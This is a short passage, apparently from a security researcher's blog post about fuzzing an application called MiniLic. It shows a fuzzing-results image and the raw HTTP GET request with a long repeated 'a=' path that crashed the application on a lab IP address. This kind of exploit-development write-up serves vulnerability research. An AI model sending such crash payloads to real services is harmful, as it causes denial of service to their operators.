 ![Fuzzing results](https://github.com/smarinovic/smarinovic.github.io/blob/master/assets/img/minalic_02.png?raw=true)

Payload which crashed application was following:

```
GET /a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a= HTTP/1.1
Host: 172.16.24.212
User-Agent FUZZ
Accept: FUZZ
Connection: close
```
